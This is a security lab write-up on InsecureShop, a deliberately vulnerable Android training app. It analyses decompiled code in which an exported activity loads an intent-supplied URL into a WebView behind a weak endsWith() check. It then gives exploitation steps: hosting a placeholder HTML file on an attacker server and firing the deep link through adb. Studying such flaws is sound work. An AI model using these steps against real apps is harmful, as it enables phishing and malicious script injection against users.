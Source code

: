 ## Context

The Android app **InsecureShop** contains an **exported activity** that can be triggered by external applications or the ADB shell without proper access controls. This activity loads a URL provided via an intent parameter and displays it in a WebView.

Due to insufficient validation, an attacker can make the app load arbitrary content, enabling phishing or malicious script injection.


---

## Vulnerable Code Analysis

Relevant code snippet (decompiled Kotlin/Java):

```java
if (uri != null) {
    String data = null;
    if (!StringsKt.equals$default(uri.getPath(), "/web", false, 2, null)) {
        if (StringsKt.equals$default(uri.getPath(), "/webview", false, 2, null)) {
            Intent intent2 = getIntent();
            Uri data2 = intent2.getData();
            String queryParameter = data2.getQueryParameter("url");

            if (StringsKt.endsWith$default(queryParameter, "insecureshopapp.com", false, 2, null)) {
                Uri data3 = getIntent().getData();
                data = data3 != null ? data3.getQueryParameter("url") : null;
            }
        }
    }
}
```

**Key points:**

1. The activity is **exported** and can be launched externally.
2. It expects the URI path `/webview`.
3. It takes a `url` query parameter from the intent data.
4. The code checks if the URL **ends with** `insecureshopapp.com`.
5. However, the validation is **insufficient** because:
    - `endsWith()` can be bypassed with URLs like `attacker.com/insecureshopapp.com` (open redirect style).
    - No proper scheme/host validation is done before loading the URL.


---

## Exploitation Steps

#### 1. Create a Malicious HTML File

Prepare a malicious payload (`test.html`) that will be loaded in the app’s WebView.
```bash
echo "KILL-9" > test.html
```
This could be replaced with JavaScript or phishing HTML.

#### 2. Host the Malicious File

Start a Python HTTP server in the same directory as the HTML file:
```bash
python3 -m http.server 8002
```

This will make the file accessible at:
```bash
http://<attacker_ip>:8002/test.html
```

#### 3. Trigger the Exported Activity

Use ADB to send an **intent** directly to the vulnerable activity:
```bash
adb shell am start -W -a android.intent.action.VIEW -d "insecureshop://com.insecureshop/web?url=192.168.1.46:80/test.html"
```

![](../../../../Images/Exported_Activity_InsecureShop_Example.png)
#### Breakdown:

- `-a android.intent.action.VIEW` → standard action to view a URI.
- `-d` → specifies the data URI passed to the activity.
- `insecureshop://com.insecureshop/web?url=...` → custom scheme and parameters for the app.
- The `url` parameter points to our malicious HTML file hosted on the attacker's server.


#### Why It Works

- The app does **not** verify that the loaded `url` actually belongs to its own domain.
- As the activity is **exported**, any external source (other apps, ADB, deep link) can invoke it.